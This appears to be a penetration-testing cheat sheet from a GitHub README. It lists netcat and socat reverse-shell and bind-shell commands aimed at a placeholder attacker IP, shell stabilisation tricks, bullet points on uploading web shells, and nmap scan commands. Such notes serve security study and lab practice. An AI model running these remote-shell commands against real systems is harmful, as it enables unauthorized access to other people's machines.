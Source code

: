 **Netcat Commands:**  
```bash
# Listener
nc -lvnp 4444

# Reverse shell
nc <attacker_ip> 4444 -e /bin/bash
```

**Socat Commands:**  
```bash
# Listener
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash

# Reverse shell
socat TCP:<attacker_ip>:4444 EXEC:/bin/bash
```

---

### 🌐 Shells & Web Shells  
- Reverse & bind shell theory.  
- Stabilizing shells (e.g., upgrading TTY).  
- Uploading and invoking web shells.  

**Shell Upgrade Tricks:**  
```bash
# Python upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Backgrounding and bringing shell to foreground
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

### 🕵️ Web Application Testing  
- Walking through an application manually with browser dev tools.  
- Observing requests, responses, and potential vulnerabilities without automation.  

---

### 🔍 Enumeration with Nmap  
```bash
# Quick scan
nmap -sV <target_ip>

# Aggressive scan
nmap -A <target_ip>

# Specific ports
nmap -p 21,22,80,443 <target_ip>
```

---